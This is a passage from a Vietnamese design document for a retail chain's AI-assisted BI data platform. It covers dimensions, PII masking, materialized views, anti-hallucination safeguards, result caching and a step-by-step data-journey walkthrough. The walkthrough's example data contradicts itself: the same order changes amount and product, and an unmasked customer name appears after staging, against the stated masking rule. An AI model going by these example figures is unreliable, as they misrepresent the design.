| Chỉ cần cho ad-hoc analysis | **Phục vụ 95% use cases** | Chỉ phục vụ overview |


### 5.3. Dimension Tables (Hierarchical Filters)

> **Key Insight**: Mỗi dimension table chứa **hierarchy đầy đủ**, cho phép roll-up/drill-down ở bất kỳ level nào mà không cần bảng aggregate mới.

##### `dim_date` — Time Dimension

**`dim_date`** (dbt model — cần tạo): PK `date_key` (DATE). Hierarchy: `day_of_week` → `week_key` → `month_key`/`month_name` → `quarter_key` → `year_key`. Fiscal calendar: `fiscal_month/quarter/year`. Helpers: `is_weekend`, `is_holiday`, `same_day_last_year`, `same_day_last_month` (cho YoY/MoM comparison)

##### `dim_store` — Geography Dimension

**`dim_store`** (dbt model — cần tạo): PK `store_key` (INT). Hierarchy: `store_code`/`store_name`/`store_type` → `store_group` → `region` (Miền Nam/Bắc/Trung) → `province` → `district`. Metadata: `opened_date`, `status` (Active/Closed), `sqm` (diện tích)

##### `dim_product` — Product/Category/Brand Dimension

**`dim_product`** (dbt model — cần tạo): PK `product_key` (INT). Hierarchy: `sku`/`product_name` → `sub_category` → `category` → `division`. Brand: `brand`, `brand_tier` (Premium/Mid-range/Economy). Segmentation: `price_range`. Metadata: `launch_date`, `is_active`

##### Tại sao thiết kế Dimension Hierarchy quan trọng?


```mermaid
graph TD
    subgraph "dim_store Hierarchy"
        N["🇻🇳 Toàn Quốc"]
        N --> R1["Miền Nam"]
        N --> R2["Miền Bắc"]
        N --> R3["Miền Trung"]
        R1 --> P1["HCM"]
        R1 --> P2["Bình Dương"]
        R2 --> P3["Hà Nội"]
        P1 --> G1["Nhóm Trung Tâm"]
        P1 --> G2["Nhóm Ngoại Thành"]
        G1 --> S1["CH Nguyễn Huệ"]
        G1 --> S2["CH Lê Lợi"]
    end
    
    subgraph "Query tại mỗi level"
        Q1["SELECT SUM(net_revenue)<br/>FROM fct_sales_daily f<br/>JOIN dim_store s ON ...<br/>WHERE s.region = 'Miền Nam'"]
        Q2["SELECT SUM(net_revenue)<br/>FROM fct_sales_daily f<br/>JOIN dim_store s ON ...<br/>WHERE s.province = 'HCM'"]
        Q3["SELECT SUM(net_revenue)<br/>FROM fct_sales_daily f<br/>JOIN dim_store s ON ...<br/>WHERE s.store_code = 'CH001'"]
    end
    
    R1 -.-> Q1
    P1 -.-> Q2
    S1 -.-> Q3
```

> **Mọi query đều đi qua 1 bảng fact duy nhất `fct_sales_daily`** — chỉ khác ở mệnh đề `WHERE` trên dimension. Không cần bảng aggregate riêng cho mỗi level.


### 5.4. PII & Sensitive Data Masking Pipeline

> [!CAUTION]
> **Chuỗi siêu thị có PII (customer data) + financial data (giá vốn, margin, supplier price).** Dữ liệu này PHẢI được masking/anonymizing trong dbt pipeline TRƯỚC KHI expose qua BI.

#### Masking Strategy — 3 Tiers

| Tier | Data Type | Ví dụ | Masking Method | Ai được xem gốc? |
|:-----|:----------|:------|:--------------|:-----------------|
| **T1: PII** | Customer personal data | Tên, SĐT, email, CMND, địa chỉ | **Hash + Pseudonymize** trong dbt staging layer | Chỉ role `data_admin` |
| **T2: Financial Sensitive** | Cost, margin, supplier pricing | Giá vốn (COGS), gross margin %, supplier price | **Column-level RBAC** — ẩn khỏi non-finance roles | `finance_manager`, `executive` |
| **T3: Business Metrics** | Revenue, order count, inventory | Doanh thu, số đơn, tồn kho | **Visible** nhưng row-level filtered (RBAC by store/region) | Theo RBAC role-based |

#### dbt Masking Models

**`stg_customers_masked`** (dbt staging model — cần tạo): PII masking tại staging layer, downstream KHÔNG BAO GIỜ thấy PII gốc
- **Giữ lại**: `customer_id`, `customer_segment` (VIP/Regular/New), `city`, `first_purchase_date`, `days_since_last_purchase`, `total_lifetime_value`
- **Hash (irreversible)**: `customer_name` → `MD5(CONCAT(name, PII_SALT))` as `customer_hash`
- **Loại bỏ hoàn toàn**: `district`, `phone_number`, `email`, `cmnd` (PII)

**`fct_sales_daily` column RBAC marking**: T3 visible (row-filtered): `gross_revenue`, `net_revenue`, `order_count`, `item_quantity`, `customer_hll`, `discount_amount`. T2 financial sensitive (Query Proxy hide cho non-finance): `cogs`, `gross_profit`

#### Column-Level RBAC Matrix

| Column | `store_manager` | `regional_manager` | `finance_manager` | `executive` | `hr_manager` |
|:-------|:---------------|:-------------------|:-----------------|:-----------|:------------|
| `net_revenue` | ✅ (own store) | ✅ (own region) | ✅ (all) | ✅ (all) | ❌ |
| `order_count` | ✅ (own store) | ✅ (own region) | ✅ (all) | ✅ (all) | ❌ |
| `cogs` | ❌ | ❌ | ✅ (all) | ✅ (all) | ❌ |
| `gross_profit` | ❌ | ❌ | ✅ (all) | ✅ (all) | ❌ |
| `customer_hash` | ✅ | ✅ | ✅ | ✅ | ❌ |
| Customer PII (name, phone) | ❌ | ❌ | ❌ | ❌ | ❌ (masked at source) |
| HR salary data | ❌ | ❌ | ❌ | ✅ | ✅ (own dept) |

> [!IMPORTANT]
> **PII masking xảy ra tại dbt staging layer** (irreversible). Downstream marts, MVs, và BI layer **KHÔNG BAO GIỜ** chứa PII gốc. Đây là defense-in-depth: ngay cả nếu có security breach ở BI layer, PII gốc không bị lộ.

### 5.5. StarRocks Materialized Views (Smart Pre-computation)

> [!TIP]
> **Nguyên tắc 80/20**: Chỉ pre-compute những tổ hợp được query **nhiều nhất** (top 20% queries phục vụ 80% users). StarRocks **tự động route** query tới MV phù hợp — code không cần thay đổi.

##### MV cho overview dashboards (daily refresh)

**3 Materialized Views cần tạo** (tất cả `REFRESH ASYNC EVERY 15 MINUTE`, dùng `HLL_UNION_AGG` cho customer_hll):

| MV | Grain | Dimensions | Measures | Phục vụ |
|:---|:------|:-----------|:---------|:--------|
| **mv_monthly_region** | month × region × category | `month_key`, `quarter_key`, `year_key`, `region`, `province`, `category`, `division`, `brand` | `net_revenue`, `gross_profit`, `order_count`, `item_quantity`, `customer_hll`, `discount_amount` | Executive overview |
| **mv_daily_store** | day × store | `date_key`, `store_code`, `store_name`, `store_group`, `region`, `province` | `net_revenue`, `order_count`, `item_quantity`, `customer_hll` | Operations manager |
| **mv_brand_performance** | month × brand × channel | `month_key`, `brand`, `brand_tier`, `category`, `channel_name` | `net_revenue`, `gross_profit`, `order_count`, `item_quantity`, `customer_hll` | Marketing team |

##### Auto Query Rewrite — Tại sao MV hiệu quả?

```
UserQuery:  
  SELECT s.region, SUM(f.net_revenue) 
  FROM fct_sales_daily f 
  JOIN dim_store s ON ... 
  WHERE d.month_key = '2026-04' 
  GROUP BY s.region

StarRocks CBO nhận thấy:
  → mv_monthly_region đã có (month_key, region, net_revenue) pre-aggregated
  → Auto-rewrite thành: SELECT region, net_revenue FROM mv_monthly_region WHERE month_key = '2026-04'

Kết quả:
  ❌ Không MV: scan 500K rows × JOIN 3 tables → 800ms
  ✅ Có MV:    scan 50 rows từ MV → 5ms (160x nhanh hơn)
```


### 5.6. Data Refresh Strategy — Giữ Dashboard Luôn "Fresh"

| Layer | Refresh Mechanism | Frequency | Trigger |
|:------|:-----------------|:----------|:--------|
| **StarRocks fact tables** | dbt run (Dagster trigger) | Mỗi 15 phút | Airbyte sync complete |
| **StarRocks MVs** | `REFRESH ASYNC EVERY` | Mỗi 15 phút | Automatic |
| **Redis cache** | Invalidate + Re-warm | Mỗi 15 phút (sau dbt run) | Dagster trigger |
| **Dashboard UI** | Data freshness indicator | Real-time | API metadata response |

##### Cache Invalidation + Re-warm Pipeline

**`invalidate_and_warm_cache`** (Dagster asset, chạy sau dbt run — cần implement): (1) Invalidate tất cả `dash:*` Redis keys; (2) Re-warm top filter combinations; (3) Update freshness timestamp `data_freshness`

##### Data Freshness Indicator (UI)

**`DataFreshnessBadge`** (React component — cần implement): SWR poll `/api/dashboard/freshness` mỗi 60s. Badge hiển thị warning (> 30 phút) hoặc success kèm relative time

### 5.7. Data Integrity & Result Reusability Architecture

> [!CAUTION]
> **Vấn đề cốt lõi**: Khi AI Agent tạo chart/table, nếu data được **LLM tự generate** (hallucinate) thay vì lấy từ database thực qua code/SQL, thì kết quả sẽ **sai lệch nghiêm trọng** — user tin tưởng một con số không có thật. Đồng thời, nếu mỗi lần user hỏi lại cùng một câu hỏi thì hệ thống phải chạy lại toàn bộ pipeline (LLM → SQL → Execute → Visualize), gây **lãng phí tài nguyên và chi phí LLM không cần thiết**.

#### 5.7.1. Vấn Đề #1: Bảo Đảm Data Integrity — "Code-Verified Data Generation"

##### 5.7.1.1. Nguyên Tắc Thiết Kế

> [!IMPORTANT]
> **Rule #1: ZERO Tolerance for LLM-Fabricated Data**
> 
> Mọi con số, bảng, biểu đồ hiển thị cho user **BẮT BUỘC** phải đến từ kết quả thực thi code (SQL hoặc Python) trên data source thực. LLM chỉ được phép:
> - **Generate code** (SQL query hoặc Python script)
> - **Giải thích/tóm tắt** kết quả từ code execution
> - **Đề xuất visualization type** dựa trên data structure
> 
> LLM **KHÔNG ĐƯỢC PHÉP** tự tạo data, ước tính số liệu, hoặc "đoán" giá trị.

##### 5.7.1.2. Kiến Trúc Code-Verified Pipeline


```mermaid
graph TD
    USER["👤 User Query<br/>'Doanh thu Q1 theo tháng?'"] --> PLANNER["🧠 Planner Agent<br/>(Intent + Plan)"]
    
    PLANNER --> |"Generate SQL/Python"| CODEGEN["📝 Code Generation<br/>(LLM output = CODE ONLY)"]
    
    CODEGEN --> REVIEW["🔍 Code Review Gate"]
    
    REVIEW --> |"SQL"| SQL_EXEC["⚡ SQL Execution<br/>(StarRocks / Data Warehouse)"]
    REVIEW --> |"Python"| PY_EXEC["⚡ Python Execution<br/>(K8s Pod Sandbox)"]
    
    SQL_EXEC --> RESULT["📊 Raw Result<br/>(Rows + Columns)"]
    PY_EXEC --> RESULT
    
    RESULT --> VALIDATE["✅ Result Validator<br/>- Schema check<br/>- Data type check<br/>- Row count sanity"]
    
    VALIDATE --> |"Pass"| RENDER["🎨 Visualization<br/>(ECharts)<br/>Input = EXECUTED DATA ONLY"]
    VALIDATE --> |"Fail (max 3 retries)"| RETRY["🔄 Retry<br/>(Self-correct code)<br/>Retry 1: Fix code<br/>Retry 2: Simplify query<br/>Retry 3: Ask user"]
    RETRY --> |"retries < 3"| CODEGEN
    RETRY --> |"retries >= 3"| FALLBACK["❌ Return Error<br/>+ Generated Code<br/>+ Error Explanation<br/>User can edit & re-run"]
    
    RENDER --> ARTIFACT["💾 Save to<br/>Result Artifact Store"]
    ARTIFACT --> RESPOND["💬 Response to User<br/>- Chart/Table<br/>- Generated Code (transparent)<br/>- Data Source Lineage"]
    
    style CODEGEN fill:#ffd700,stroke:#333,color:#333
    style RESULT fill:#90ee90,stroke:#333,color:#333
    style RENDER fill:#87ceeb,stroke:#333,color:#333
    style ARTIFACT fill:#dda0dd,stroke:#333,color:#333
```

##### 5.7.1.3. Enforcement Mechanisms — 6 Lớp Bảo Vệ

| Layer | Mechanism | Mô tả | Đo lường |
|:------|:----------|:------|:---------|
| **L1: Prompt Engineering** | System Prompt Constraint | LLM được instruct rõ ràng: "You MUST generate executable code. NEVER fabricate data values." | Audit sampling 100 responses/tuần |
| **L2: Output Parser** | Structured Output Enforcement | LLM output phải theo schema cố định: `{code: string, language: "sql"|"python", explanation: string}`. Nếu output chứa raw data → reject | Parser rejection rate tracking |
| **L3: Execution Gate** | Mandatory Code Execution | Mọi response chứa data/chart **BẮT BUỘC** phải qua execution layer. Không có path nào bypass được | 100% responses traced in Langfuse |
| **L4: Result Provenance** | Data Lineage Tracking | Mỗi kết quả kèm metadata: `{source_query, execution_time, data_source, row_count}` | Lineage coverage = 100% |
| **L5: User Transparency** | Show Generated Code | User luôn thấy code đã generate + có thể edit & re-run. Giống Julius.ai's code transparency | User can verify any result |
| **L6: Retry Budget** | Max Retry Limit (3 attempts) | Mỗi query có tối đa 3 lần retry. Sau 3 lần fail → trả error + code cho user tự review. Tránh infinite retry loop | Retry count per query tracked |

##### Retry Strategy — Graduated Fallback (Max 3 Attempts)

> [!WARNING]
> **Vấn đề**: Nếu code execution fail → retry → LLM generate lại → fail → retry... mà không có limit → infinite loop, tốn LLM cost vô ích, user chờ vô hạn.

**`GraduatedRetryStrategy`** (cần implement — max 3 attempts với escalating fallback):
- **Attempt 1**: Normal execution
- **Attempt 2**: Self-correct — feed truncated error (max 5 lines) back to LLM, yêu cầu "fix code, simpler approach"
- **Attempt 3**: Simplify — yêu cầu "SIMPLEST possible query, avoid complex JOINs/subqueries/window functions"
- **All fail**: Return error + generated code cho user tự edit & re-run. Mỗi attempt logged qua Langfuse

##### 5.7.1.4. Prompt Engineering Pattern — Structured Output

**SQL Agent System Prompt** (cần tạo): Rules: (1) MUST output valid executable SQL; (2) NEVER fabricate/estimate data; (3) NEVER include sample/mock data. Output format: strict JSON `{sql, explanation, expected_columns, chart_suggestion}`. NEVER output raw data values.

**`validate_agent_output`** (cần implement): Reject nếu output thiếu `sql`/`python_code` (must have executable code). Reject nếu output chứa `data`/`values`/`results` keys (sign of hallucination)

##### 5.7.1.5. Runtime Enforcement — Execution Guard

**`ExecutionGuard`** (middleware — cần implement): Rule 1: Nếu response có chart/table → BẮT BUỘC phải có `execution_result` từ code execution (không phải LLM). Rule 2: Attach provenance metadata (query, execution_time, data_source, row_count, cache_key) + generated code cho transparency

#### 5.7.2. Vấn Đề #2: Result Reusability — "Result Artifact Store"

> [!TIP]
> **Nguyên tắc**: Kết quả đã compute một lần nên được **lưu trữ như artifact có thể tái sử dụng**. Khi user (cùng hoặc khác) hỏi câu hỏi tương tự, hệ thống nên **phục vụ từ cache** thay vì chạy lại toàn bộ pipeline.

##### 5.7.2.1. Kiến Trúc Result Artifact Store


```mermaid
graph TD
    subgraph "Query Processing Flow"
        Q["👤 User Query"] --> HASH["🔑 Query Fingerprint<br/>(Semantic Hash)"]
        HASH --> LOOKUP["🔍 Artifact Lookup"]
        
        LOOKUP --> |"Cache HIT<br/>+ Data FRESH"| SERVE["⚡ Serve from Cache<br/>(< 100ms)"]
        LOOKUP --> |"Cache HIT<br/>+ Data STALE"| REFRESH["🔄 Background Refresh<br/>+ Serve Stale"]
        LOOKUP --> |"Cache MISS"| EXECUTE["🔧 Full Execution<br/>Pipeline"]
        
        EXECUTE --> SAVE["💾 Save Artifact"]
        REFRESH --> SAVE
        SAVE --> STORE["Result Artifact Store"]
    end
    
    subgraph "Result Artifact Store"
        STORE --> META["📋 Metadata Layer<br/>(PostgreSQL)"]
        STORE --> DATA["📊 Data Layer<br/>(S3/MinIO)"]
        STORE --> VIZ["🎨 Visualization Layer<br/>(Pre-rendered Charts)"]
    end
    
    subgraph "Cache Invalidation"
        PIPELINE["📡 Data Pipeline<br/>(dbt run complete)"] --> INVALIDATE["🗑️ Invalidate<br/>Affected Artifacts"]
        INVALIDATE --> META
    end
    
    subgraph "Reuse Scenarios"
        SERVE --> R1["Same user, same query"]
        SERVE --> R2["Different user, same query"]
        SERVE --> R3["Similar query<br/>(semantic match)"]
        SERVE --> R4["Scheduled report<br/>(pre-computed)"]
        SERVE --> R5["Dashboard widget<br/>(pinned result)"]
    end
```

##### 5.7.2.2. Artifact Storage Schema

**`result_artifacts`** (PostgreSQL table — cần tạo):
- **Query fingerprint** (3-layer matching): `query_hash` (SHA-256 NL), `sql_hash` (SHA-256 SQL — Priority 1), `entity_hash` (SHA-256 {metric|time_range|filters} — Priority 2), `semantic_hash` (vector — Priority 3 with entity guard), `original_query`, `extracted_entities` (JSONB)
- **Generated code**: `generated_sql`, `generated_python`
- **Execution result**: `data_source`, `row_count`, `column_schema` (JSONB), `execution_time_ms`
- **Data storage**: `result_data_uri` (MinIO URI), `result_size_bytes`
- **Visualization**: `chart_type`, `chart_config` (ECharts JSON), `chart_image_uri`
- **Freshness**: `data_freshness_at`, `computed_at`, `expires_at`, `is_stale`
- **Lineage**: `source_tables` (TEXT[]), `dbt_model_refs` (TEXT[])
- **Usage**: `created_by`, `access_count`, `last_accessed_at`
- **Sharing**: `is_pinned`, `is_shared`, `shared_with` (UUID[])
- **Indexes**: `query_hash` (UNIQUE), `semantic_hash` (GIN), `source_tables` (GIN), `is_stale+computed_at`, `is_pinned` (partial)

**`artifact_access_log`** table: `artifact_id` (FK), `user_id` (FK), `accessed_at`, `context` (chat/dashboard/report/api) — cho popularity-based caching

##### 5.7.2.3. Query Fingerprinting — Exact + Semantic Matching

> [!WARNING]
> **Rủi ro Semantic Matching**: Hai câu hỏi tương tự semantic nhưng **khác time context** có thể match sai:
> - "Doanh thu Q1 **2026**?" → cached
> - "Doanh thu Q1 **2025**?" → semantic similarity > 0.92 → trả kết quả 2026!
>
> **Giải pháp**: Dùng **3-layer matching** thay vì chỉ NL hash: (1) SQL hash (chính xác nhất), (2) Entity-extracted hash, (3) Semantic match (cuối cùng, chỉ khi entities match).

**`ExtractedEntities`** (dataclass): `metric` (str), `time_range` (str), `filters` (dict), `granularity` (str) — trích xuất từ NL query qua Gemini Flash (~100ms, ~$0.0001/call)

**`QueryFingerprint`** (cần implement — 3-layer matching):
- **Strategy 1 — SQL Hash** (most precise): SHA-256 of normalized SQL. Same SQL = exact same result
- **Strategy 2 — Entity Hash** (prevents cross-period errors): SHA-256 of `{metric}|{time_range}|{sorted_filters}|{granularity}`. Tránh "Doanh thu Q1 2026" match sai "Doanh thu Q1 2025"
- **Strategy 3 — Semantic Match** (last resort, with entity guard): `multilingual-e5-large` embedding → vector search (threshold 0.95) → **CHỈ accept nếu extracted entities (metric, time_range, filters, granularity) match chính xác**
- **`find_matching_artifact()`**: Priority 1 → 2 → 3. Return `CacheResult(artifact, match_type)` hoặc `miss`

##### 5.7.2.4. Cache Invalidation Strategy — Pipeline-Driven

> [!IMPORTANT]
> **Cache invalidation là vấn đề khó nhất.** Giải pháp: Liên kết cache freshness với data pipeline (dbt run). Khi dbt chạy xong và data thay đổi → invalidate artifacts liên quan.


```mermaid
graph TD
    subgraph "Data Pipeline Events"
        DBT_DONE["dbt run complete<br/>(Dagster event)"]
        DBT_DONE --> CHANGED["Identify Changed Models<br/>- fct_revenue ✅ changed<br/>- dim_customers ❌ no change<br/>- fct_orders ✅ changed"]
    end
    
    subgraph "Invalidation Logic"
        CHANGED --> FIND["Find Artifacts<br/>WHERE source_tables<br/>OVERLAP changed_models"]
        FIND --> MARK["Mark as STALE<br/>(is_stale = TRUE)"]
        MARK --> PRECOMPUTE{{"Popular artifacts?<br/>(access_count > threshold)"}}
        PRECOMPUTE --> |"Yes"| REFRESH["🔄 Background Refresh<br/>(Pre-compute popular results)"]
        PRECOMPUTE --> |"No"| LAZY["😴 Lazy Refresh<br/>(Refresh on next access)"]
    end
```

**`CacheInvalidator`** (cần implement — triggered by Dagster sau dbt run):
- **`on_dbt_run_complete`**: (1) Mark artifacts as stale WHERE `source_tables` overlap `changed_models`; (2) Pre-refresh popular artifacts (access_count > 10 OR is_pinned) — top 20, background refresh
- **`background_refresh`**: Re-execute saved SQL/Python → update artifact data, `is_stale=FALSE`, `computed_at=NOW()`

##### 5.7.2.5. API Design — Result Artifact CRUD

**Artifact CRUD API** (FastAPI endpoints — cần implement):
- `GET /api/v1/artifacts/{id}` — Lấy artifact + track access
- `GET /api/v1/artifacts/search?query=&match_type=auto&include_stale=false` — Tìm artifact (exact/semantic/auto)
- `POST /api/v1/artifacts/{id}/pin` — Pin artifact (never auto-evict, auto-refresh)
- `POST /api/v1/artifacts/{id}/share` — Share với team members
- `GET /api/v1/artifacts/popular?limit=20` — Top artifacts cho recommendation

##### 5.7.2.6. Reuse Scenarios Matrix

| Scenario | Trigger | Behavior | Latency | LLM Cost |
|:---------|:--------|:---------|:--------|:---------|
| **Same user, same query** | Exact hash match | Serve from cache | < 100ms | $0 |
| **Same user, paraphrased** | Semantic match (>0.95) + entity guard | Serve from cache + note "similar to previous query" | < 200ms | $0 |
| **Different user, same query** | Exact hash match (shared artifacts) | Serve from cache | < 100ms | $0 |
| **Scheduled report** | Cron trigger | Pre-compute & cache before delivery | N/A | $0 (pre-computed) |
| **Dashboard widget** | Pinned artifact | Auto-refresh on data pipeline event | < 100ms (serve stale) | $0 (background) |
| **Data changed** | dbt run event | Mark stale → refresh popular → lazy refresh rest | Background | Minimal (reuse SQL) |
| **New unique query** | Cache miss | Full pipeline execution | 3-8s | Full cost |

##### 5.7.2.7. Storage & Eviction Strategy

| Tier | Stored In | TTL | Điều kiện giữ lại |
|:-----|:----------|:----|:-----------------|
| **Hot** | Redis (in-memory) | 1 giờ | Top 100 queries by access_count |
| **Warm** | PostgreSQL + MinIO | 7 ngày | access_count > 2 HOẶC is_pinned |
| **Cold** | MinIO (JSON archive) | 90 ngày | access_count > 0 |
| **Evicted** | Deleted | — | access_count = 0 AND age > 7 ngày AND NOT is_pinned |

#### 5.7.3. Tổng Hợp: End-to-End Flow Có Data Integrity + Reusability


```mermaid
graph TD
    USER["👤 User: 'Doanh thu Q1 2026<br/>theo tháng?'"] --> FP["🔑 Generate Query<br/>Fingerprint"]
    
    FP --> CACHE_CHECK{"🔍 Artifact<br/>Store Lookup"}
    
    CACHE_CHECK --> |"HIT + FRESH"| FAST["⚡ Return Cached Result<br/>(< 100ms, $0 LLM cost)"]
    
    CACHE_CHECK --> |"HIT + STALE"| STALE["📊 Serve Stale Result<br/>+ Background Refresh"]
    
    CACHE_CHECK --> |"MISS"| LLM["🧠 LLM: Generate Code<br/>(SQL/Python ONLY)"]
    
    LLM --> PARSE["📋 Parse & Validate<br/>Structured Output"]
    
    PARSE --> |"Has raw data<br/>(hallucinated)"| REJECT["❌ Reject & Retry<br/>'Must generate code,<br/>not data'"]
    REJECT --> LLM
    
    PARSE --> |"Has executable<br/>code"| EXEC["⚡ Execute Code<br/>(StarRocks / K8s Pod Sandbox)"]
    
    EXEC --> VALIDATE["✅ Validate Result<br/>- Non-empty<br/>- Schema match<br/>- Reasonable values"]
    
    VALIDATE --> |"Fail"| RETRY["🔄 Self-correct<br/>Code & Retry"]
    RETRY --> LLM
    
    VALIDATE --> |"Pass"| VIZ["🎨 Generate<br/>Visualization"]
    
    VIZ --> SAVE["💾 Save to<br/>Artifact Store"]
    
    SAVE --> RESPOND["💬 Respond to User<br/>✅ Chart/Table<br/>📝 Generated Code<br/>🔗 Data Lineage<br/>💾 Artifact ID"]
    
    FAST --> RESPOND_CACHED["💬 Respond<br/>✅ Cached Result<br/>📌 'From cache, computed 5m ago'<br/>🔗 Source Lineage"]
    
    STALE --> RESPOND_STALE["💬 Respond<br/>✅ Stale Result<br/>⏳ 'Refreshing in background...'"]
```

#### 5.7.4. KPIs Đo Lường Data Integrity & Reusability

| Metric | Target | Đo bằng | Giải thích |
|:-------|:-------|:--------|:-----------|
| **Hallucination Rate** | 0% | Langfuse trace audit: responses với data nhưng không có execution | Mọi data phải từ code execution |
| **Code Execution Coverage** | 100% | % responses có chart/table mà đã qua execution gateway | Không response nào bypass |
| **Cache Hit Rate** | > 40% (tuần 1) → > 60% (tháng 3) | Artifact Store metrics | Phản ánh hiệu quả reusability |

> [!NOTE]
> **Phân biệt Cache Hit Rate**: Semantic Cache (Artifact Store) target 40-60% — đo reuse kết quả AI queries. Dashboard Redis Cache target > 70% — đo cache warming hiệu quả cho pre-computed filter combos. Hai cache layer phục vụ mục đích khác nhau.
| **Avg Response Time (cached)** | < 100ms | APM metrics | Tốc độ serve từ cache |
| **LLM Cost Saved by Cache** | > 30% | (cached_queries / total_queries) × avg_cost_per_query | ROI của cache layer |
| **Artifact Freshness Accuracy** | > 95% | % artifacts có data_freshness_at khớp với actual source update | Cache invalidation chính xác |
| **Stale Serve Rate** | < 5% | % responses serve data stale > 1 giờ | User nhận data cũ có kiểm soát |
| **Pre-compute Coverage** | > 80% of pinned artifacts | % pinned artifacts được refresh trong 5 phút sau dbt run | Dashboard luôn fresh |


### 5.8. Data Journey Walkthrough — Từ Production Tới Màn Hình User

> [!NOTE]
> **Mục đích section này**: Giải thích step-by-step hành trình của một data point cụ thể — từ lúc nó được tạo trong Production Database, cho tới khi user nhìn thấy nó trên chart/table qua AI Agent BI. Mỗi bước sẽ giải thích: **"cái gì xảy ra?", "ở đâu?", "tại sao cần?"**.

##### 🎯 Ví Dụ Cụ Thể: Một Đơn Hàng Mới

Giả sử lúc **14:00** — khách hàng mua hàng tại **siêu thị Chi nhánh Nguyễn Huệ**: **2 hộp sữa Vinamilk + 1 bịch gạo, tổng 285.000₫**. Hệ thống POS ghi nhận giao dịch. Hãy theo dõi dòng data này đi qua từng chặng.

---

##### Chặng 1️⃣: Production Database (OLTP) — "Nơi Data Sinh Ra"

**Thời điểm: 14:00:00**

Khi POS ghi nhận giao dịch, hệ thống ghi vào **MongoDB Production** (primary database, ~95% volume):

POS system INSERT vào MongoDB: `transactions` collection — fields: `transaction_id: 10042`, `store_id: "ST-001"`, `total: 285000`, `payment_method: "cash"`, `items[]` (nested array: sku, name, qty, unit_price)

**Lúc này data ở đâu?** → Chỉ nằm trong MongoDB production, phục vụ vận hành POS (in hóa đơn, cập nhật inventory, đối soát ca...).

**Tại sao không query trực tiếp từ DB này cho analytics?**
- MongoDB document model tối ưu cho OLTP (read/write đơn lẻ), nhưng **không hiệu quả cho aggregate queries** (SUM, GROUP BY cross-collection)
- Nếu 300 nhân viên chạy analytics queries → MongoDB bị chậm → ảnh hưởng POS đang phục vụ khách

---

##### Chặng 2️⃣: CDC Capture — "Camera Giám Sát Thay Đổi"

**Thời điểm: 14:00:00 (gần như tức thì)**

MongoDB có một cơ chế gọi là **Change Streams** (dựa trên oplog) — giống như "nhật ký" ghi lại mọi thay đổi. Mỗi khi có insert/update/delete, MongoDB tự động ghi vào oplog.

Change Stream event: `operationType: "insert"`, `ns: {db: "pos_db", coll: "transactions"}`, `fullDocument` chứa toàn bộ document mới, `clusterTime` cho ordering

> **Ví von**: Change Streams giống như **camera an ninh** trong kho — nó ghi hình mọi hoạt động ra/vào, mà không làm phiền nhân viên đang làm việc. Đọc Change Streams = xem lại camera, không ai trong kho bị ảnh hưởng.

**Impact lên Production?** → **≈ 0%**. Oplog được MongoDB tạo sẵn (vì cần cho Replica Set replication). Airbyte chỉ tail oplog qua Change Streams API, không chạy query nào lên DB.

---

##### Chặng 3️⃣: Airbyte Sync — "Chuyển Hàng Từ Kho Cũ Sang Kho Mới"

**Thời điểm: 14:05:00 (sync job tiếp theo)**

Airbyte chạy sync job mỗi **5 phút**. Job lúc 14:05 phát hiện:

```
🔍 Checking Change Streams since last sync (14:00:00)...
📦 Found 47 new/changed documents across all collections:
   - transactions: +12 new docs (including transaction #10042)
   - transactions_items: +24 new docs (flattened from nested arrays)
   - customers: 3 updates (address changes)
   - products: 0 changes
   
⬇️ Syncing 47 documents to StarRocks...
✅ Sync complete in 2.3 seconds
```

**Trước sync:**
| Airbyte đọc từ đâu? | Airbyte ghi vào đâu? |
|:---------------------|:---------------------|
| MongoDB Change Streams (oplog tailing) | StarRocks → schema `_airbyte_raw` |

**Sau sync, trong StarRocks có:**

Trong StarRocks `_airbyte_raw.transactions`: `_airbyte_ab_id` (UUID), `_airbyte_data` (JSON blob chứa toàn bộ MongoDB document), `_airbyte_emitted_at` (sync timestamp)

> **Ví von**: Airbyte giống **xe tải chở hàng** — mỗi 5 phút chạy một chuyến, chở những thứ mới thay đổi từ "kho sản xuất" (Production) sang "kho phân tích" (StarRocks). Không phải chở toàn bộ kho, chỉ chở phần mới.

---

##### Chặng 4️⃣: dbt Raw Layer — "Dỡ Hàng Ra Khỏi Thùng"

**Thời điểm: 14:08:00 (dbt run triggered bởi Dagster)**

Airbyte sync xong → Dagster trigger `dbt run`. dbt bắt đầu transform data.

**Bước đầu tiên: Raw Layer** — parse JSON thành bảng có cấu trúc rõ ràng.

**dbt Raw Layer** (`raw_transactions.sql`): Parse JSON blob → structured columns: `_airbyte_data->>'transaction_id'` AS `transaction_id`, tương tự cho `store_id`, `cashier_id`, `total`, `payment_method`, `created_at`. Airbyte auto-flatten MongoDB nested arrays: `items[]` → separate table `transactions_items`

**Kết quả — table `raw_transactions` trong StarRocks:**

| transaction_id | store_id | cashier_id | total | payment_method | created_at | synced_at |
|:--------------|:---------|:-----------|:------|:--------------|:-----------|:----------|
| ... | ... | ... | ... | ... | ... | ... |
| 10042 | ST-001 | EMP-045 | 285000 | cash | 2026-04-07 14:00:00 | 2026-04-07 14:05:02 |

> **Ví von**: Raw layer giống **dỡ hàng ra khỏi thùng carton** — hàng vẫn y nguyên, chỉ bày ra cho dễ nhìn. Không thêm bớt gì.

---

##### Chặng 5️⃣: dbt Staging Layer — "Kiểm Tra & Dán Nhãn"

dbt tiếp tục chạy staging models — **clean data, JOIN các bảng, chuẩn hóa**.

**dbt Staging Layer** (`stg_orders.sql`): Clean + JOIN + enrich. JOIN `raw_orders` + `raw_customers` (name, segment, city) + `raw_order_items` + `raw_products`. Type cast (`total` → DECIMAL). Derived fields: `order_date`, `order_month`, `order_quarter`. Aggregate: `STRING_AGG(products)`, `SUM(quantity)`

**Kết quả — table `stg_orders` trong StarRocks:**

| order_id | order_date | customer_name | customer_segment | city | order_total | status | order_quarter | products | total_items |
|:---------|:-----------|:-------------|:----------------|:-----|:-----------|:-------|:-------------|:---------|:-----------|
| 10042 | 2026-04-07 | Nguyễn Văn A | VIP | Hồ Chí Minh | 500000 | pending | 2 | Áo Thun Basic | 2 |

> **Ví von**: Staging layer giống **kiểm tra chất lượng + dán nhãn** — xem hàng có bị lỗi không (data type cast), kết hợp thông tin từ nhiều nguồn (JOIN customer + product), thêm thông tin phụ (quarter, month).

**So sánh trước/sau Staging:**

| Trước (Raw) | Sau (Staging) | Thay đổi |
|:------------|:-------------|:---------|
| `customer_id: 'C-001'` | `customer_name: 'Nguyễn Văn A'`, `city: 'HCM'` | JOIN thêm thông tin khách |
| `total: '500000'` (string) | `order_total: 500000.00` (decimal) | Cast đúng kiểu dữ liệu |
